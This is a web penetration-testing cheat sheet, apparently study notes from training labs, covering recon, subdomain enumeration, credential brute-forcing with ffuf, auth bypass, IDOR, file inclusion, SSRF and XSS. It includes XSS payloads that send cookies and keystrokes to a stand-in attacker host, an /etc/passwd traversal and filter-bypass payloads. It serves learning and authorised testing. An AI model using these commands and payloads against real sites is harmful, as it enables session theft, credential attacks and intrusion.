




## Path Discovery
1. Check /robots.txt for disallowed paths

2. Identify used technologies and frameworks
    - favicon hash:
    ```sh
    curl https://URL/.../favicon.ico | md5sum
    ```
    [Search for hash](https://owasp.org/www-community/favicons_database)
    - HTTP headers analysis
    ```sh
    curl -I https://URL
    ```
    - [Wappalyzer browser extension](https://www.wappalyzer.com/)

3. Check sitemap.xml for structure

4. Google dorking
    - site:URL - returns results only from the specified website address
    - inurl:admin - returns results that have the specified word in the URL
    - intitle:admin - returns results which are a particular file extension
    - filetype:pdf - returns results that contain the specified word in the title

5. Other analysis tools
    - Search for websites/company's github repositories
    - Look for old versions of the website on [Wayback Machine](https://archive.org/web/)
    - Try looking for company's s3 buckets,  http(s)://{name}.s3.amazonaws.com, using names like company name, product names, etc.

6. Use automated discovery tools
    - Gobuser
    ```sh
    gobuster dir -u https://URL -w /path/to/wordlist
    ```
    - Ffuf
    ```sh
    ffuf -u https://URL/FUZZ -w /path/to/wordlist
    ```
    - Dirb
    ```sh
    dirb https://URL /path/to/wordlist
    ```

## Subdomain Enumeration
1. Check certificates for subdomains
    - [crt.sh](https://crt.sh/)

2. Use google search with filter "site:*.domain.com -site:www.domain.com"

3. DNS bruteforce
    - dnsrecon
    ```sh
    dnsrecon -t brt -d domain.com
    ```

    - sublist3r
    ```sh
    sublist3r -d domain.com
    ```

    - ffuf with Host header
    ```sh
    ffuf -u https://domain.com -H "Host: FUZZ.domain.com" -w /path/to/wordlist -fs {size}
    ```
    The above command uses the -w switch to specify the wordlist we are going to use. The -H switch adds/edits a header (in this instance, the Host header), we have the FUZZ keyword in the space where a subdomain would normally go, and this is where we will try all the options from the wordlist. The -fs switch is used to filter out responses of a certain size, which is useful for ignoring non-existent subdomains that return a standard 404 page.

## Credentials Enumeration
1. Bruteforce usernames
    - ffuf with common usernames wordlist
    ```sh
    ffuf -u https://URL/login -X POST -d "username=FUZZ&password=x" -w /path/to/usernames_wordlist -H "Content-Type: application/x-www-form-urlencoded" -fc xyz -mr "already exists"
    ```
    In the above command, we are sending a POST request to the login page with a username parameter set to FUZZ (which will be replaced by each entry in the usernames wordlist) and a password parameter set to anypassword. The -H switch is used to set the Content-Type header to application/x-www-form-urlencoded. Might also be something like application/json (check in the network tab). The -fc switch filters out responses with a xyz status code (e.g., 500) (also check in the network tab). The -mr switch matches responses that contain the string "already exists", which indicates that the username is valid.

2. Using the previously bruteforced usernames, bruteforce passwords
    - ffuf with common passwords wordlist
    ```sh
    ffuf -u https://URL/login -X POST -w usernames.txt:user,passwords.txt:pswd -d "username=user&password=pswd" -H "Content-Type: application/x-www-form-urlencoded" -fc xyz -mr "Welcome"
    ```

## Auth Bypass
1. POST request logic flaws
    - Check for parameters that can be manipulated to bypass authentication, e.g., changing "isAdmin=false" to "isAdmin=true"
    - Check if you can't provide your own data like an email address to reset the password of another user

2. Cookie tampering
    - Check for cookies that can be manipulated to bypass authentication, e.g., changing "role=user" to "role=admin"
    ```sh
    curl -H "Cookie: logged_in=true; admin=true" https://domain.com
    ```

## IDOR - Insecure Direct Object Reference
A situation where an application provides direct access to objects based on user-supplied input. An attacker can manipulate this input to access unauthorized data.
1. Look for parameters that reference user IDs or object IDs in the URL or request body
    - Example: https://domain.com/user/profile?id=12345

2. Try changing the ID to see if you can access other users' data
    - Example: https://domain.com/user/profile?id=12346

3. Identify ids in POST/PUT/PATCH requests as well and try to replace them

4. Look for encoded data that might contain IDs, and try decoding/replacing them
    - Base64 encoded JSON objects
    - JWT tokens
    - Hashes (https://crackstation.net/)

5. If the ids are unpredictable, you might want to manually create 2 different accounts and try using their respective ids to see if you can access each other's data

6. Sometimes, despite the ids not being used somewhere in the request, they might still be vulnerable to IDOR. For example, fetching user details might use a session cookie, but using directly in request parameters might be vulnerable.
    - Example:
        - GET /user/profile (uses session cookie to fetch user details)
        - GET /user/profile?id=12345 (uses id parameter to update user details)
        - POST /user/profile -d "{id: 12345}"

## File Inclusion
1. Look for parameters that reference file paths in the URL or request body
    - Example: https://domain.com/view?file=report.pdf

2. Directory Traversal
    - Try using ../ to traverse directories and access sensitive files
    - Example: https://domain.com/view?file=../../../../etc/passwd

3. Null Byte Injection
    - Try appending a null byte (%00) to the file name to bypass file extension checks
    - Example: https://domain.com/view?file=report.pdf%00.jpg

4. Look for different methods for the same request, that might act differently
    - Example: GET /view?file=report.pdf vs POST /view -d "file=report.pdf"

## Server-Side Request Forgery (SSRF)
### What is an SSRF?

SSRF stands for Server-Side Request Forgery. It's a vulnerability that allows a malicious user to cause the webserver to make an additional or edited HTTP request to the resource of the attacker's choosing.

### Types of SSRF

There are two types of SSRF vulnerability; the first is a regular SSRF where data is returned to the attacker's screen. The second is a Blind SSRF vulnerability where an SSRF occurs, but no information is returned to the attacker's screen.

### What's the impact?
A successful SSRF attack can result in any of the following: 
- Access to unauthorised areas.
- Access to customer/organisational data.
- Ability to Scale to internal networks.
- Reveal authentication tokens/credentials.

### Example


Directory Traversal can also apply, as well as other techniques like:
- &x=& to prevent other parameters from being processed
- Checking the headers for sensitive information like cookie structure, auth tokens, secrets, etc.




## Cross-Site Scripting (XSS)
Cross-Site Scripting, better known as XSS in the cybersecurity community, is classified as an injection attack where malicious JavaScript gets injected into a web application with the intention of being executed by other users.

### Proof of Concept
This is the simplest of payloads where all you want to do is demonstrate that you can achieve XSS on a website.
```html
<script>alert('XSS');</script>
```

### Examples
1. Stealing session/cookies
```html
<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
```

2. Keylogging
```html
<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>
```

3. Business Logic Abuse
```html
<script>user.changeEmail('attacker@hacker.thm');</script>
```


### Reflected XSS
Reflected XSS occurs when user input is immediately returned by a web application without proper sanitization. This type of XSS is typically found in search results, error messages, or any other response that includes user-supplied data.




### Stored XSS
Stored XSS, also known as persistent XSS, occurs when user input is stored on the server (e.g., in a database) and later displayed to other users without proper sanitization.

Examples:
- Comments on a blog
- User profile information
- Website Listings

### DOM-Based XSS
DOM-Based XSS occurs when the vulnerability exists in the client-side code rather than the server-side. In this case, the malicious script is executed as a result of modifying the DOM (Document Object Model) in the victim's browser.

Look for parts of the code that access certain variables that an attacker can have control over, such as "window.location.x" parameters, "document.referrer", "document.cookie", etc.

Eval functions are also a common source of DOM-based XSS vulnerabilities.

### Blind XSS
Blind XSS is a type of stored XSS where the attacker does not see the immediate result of their payload. Instead, the payload is stored on the server and executed when an administrator or another user accesses the affected page.

https://github.com/mandatoryprogrammer/xsshunter-express - a tool for detecting and exploiting XSS vulnerabilities.

## XSS Practical Examples
### Tag injection
The payload: 
```html 
<script>alert('THM');</script> 
```


### Tag closure
### EXAMPLE 1

The payload: 
```html
"><script>alert('THM');</script>
```




### EXAMPLE 2
The payload: 
```html
</textarea><script>alert('THM');</script>
```


### Code injection
The payload: 
```js
 ';alert('THM');//
```

Take note of the comment and the end, making it ignore the rest of the code after our injection in this line.


### Filter bypass
Initial payload: 
```html
<script>alert('THM');</script>
```

But there is a filter for the word "script", so we can try to bypass it with:
```html
<sscriptcript>alert('THM');</sscriptcript>
```

And it works, as only the middle part "script" is being filtered, leaving the surrounding letters intact.

### Attribute injection
We have an empty img tag, which is awaiting an input that gets put into the src attribute. However, it gets input directly as HTML, so we can try to inject another attribute to run a JS payload.
```html
/images/cat.jpg" onload="alert('THM');
```



